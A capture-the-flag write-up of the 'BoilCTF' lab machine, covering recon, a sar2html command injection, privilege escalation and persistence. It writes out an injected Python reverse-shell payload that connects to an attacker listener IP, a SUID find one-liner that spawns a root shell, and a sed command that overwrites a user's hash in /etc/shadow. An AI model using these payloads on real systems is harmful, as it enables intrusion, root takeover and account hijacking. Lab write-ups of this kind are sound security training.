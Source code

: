 # BoilCTF
IP: 10.10.8.187
<br>
First of all went to the IP in the browser and found the apache2 server running. Then I went to robot.txt and found some interesting stuff there:

```
User-agent: *
Disallow: /

/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it

079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075
```

Interesting pages on joomla/:
- _test
- administrator
- build
- tests

```
MYSQL_DATABASE: joomla_ut
     MYSQL_USER: joomla_ut
     MYSQL_PASSWORD: joomla_ut
     MYSQL_ROOT_PASSWORD: joomla_ut
```

I even tried to use Joomla Scanner, but didn't find anything useful.
```
Joomla version is: 3.9.12

> Joomla! Core 1.5.0 - 3.9.4 - Directory Traversal / Authenticated Arbitrary File Deletion 
> Joomla! 3.9.0 < 3.9.7 - CSV Injection
```

Also I spent a lot of time visiting all the folders, which was a really bad idea. Some interesting stuff that I found there, even though they were not useful at all.
```
tests/codeception/\_support/Shared/UserCredentials.php
http://boilctf.thm/joomla/media/editors/

codemirror/
none/
tinymce/
```

:bulb: After some time, I realized that I needed another tactic. I remembered that there was some weird thing on the _\_test_ page. So I went there. 
![sar2html](./imgs/sar2html.png)
Then I googled sar2html exploit and found what I needed. It turns out that to exploit the thing we just need to change the url a little bit.<br>
This is a good URL which supposed to give us something whatever.<br>
http://boilctf.thm/joomla/_test/index.php?plot=LINUX<br>
But if we change it to:
http://boilctf.thm/joomla/_test/index.php?plot=;whoami and click on the Select Host button<br>
we get some additional results there, which is a response to our command:
![whoami](./imgs/whoami.png)

I set up an _nc_ listener on port *2222* and used a simple Python reverse-shell which I found on the internet. Therefore, eventually, my URL looked like this:<br>
```
http://boilctf.thm/joomla/_test/index.php?plot=;python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.2.116.12",2222));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

And at this point, we got a reverse-shell. Here is the contents of the _log.txt_ file that was in the folder.
![log.txt](./imgs/log.txt.png)
So we got usernames and passwords there.
username: _basterd_<br>
username: _pentest_<br>
password: _superduperp@$$_<br>
**But that actually doesn't matter :)**<br>

I used this command to search for files on the system with the setuid (SUID) permission bit set for the owner.
```
find / -perm -u=s -type f 2>/dev/null
```
There were many files, but the more experience you have the more you understand which files you should look for. So the interesting executable for me was _find_.
I went to https://gtfobins.github.io/gtfobins/find/ and found that I can escalate my privileges with this command: 
```
find . -exec /bin/sh -p \; -quit
```
So I executed it and got root.

Even though that reverse-shell worked I wanted to connect via _ssh_ to the machine.
SSH was not on port 22. Reading the ssh config file (`/etc/ssh/sshd_conf`) found that it was running on port `55007`.

Also, I couldn't connect directly to root so I created my own hash of a password. And changed the `/etc/shadow` file a little bit.
```
openssl passwd -6 -salt xyz yourpass
$6$xyz$VKswtvLoVpOLcpjDMIFXhxa8ukqqKSKHjcPBLZUk9NxWldmlFQY4stUGo.QjEhav7mp86ih2PRqYPqjkhWi5y.
sed -i 's/^basterd:[^:]\*:/basterd:$6$xyz$VKswtvLoVpOLcpjDMIFXhxa8ukqqKSKHjcPBLZUk9NxWldmlFQY4stUGo.QjEhav7mp86ih2PRqYPqjkhWi5y.:/' /etc/shadow
```
And that let me connect via _ssh_.<br>
### A little bit of hardening
To prevent privilege escalation with the _find_ command need to do this:<br>
`chmod u-s /usr/bin/find`
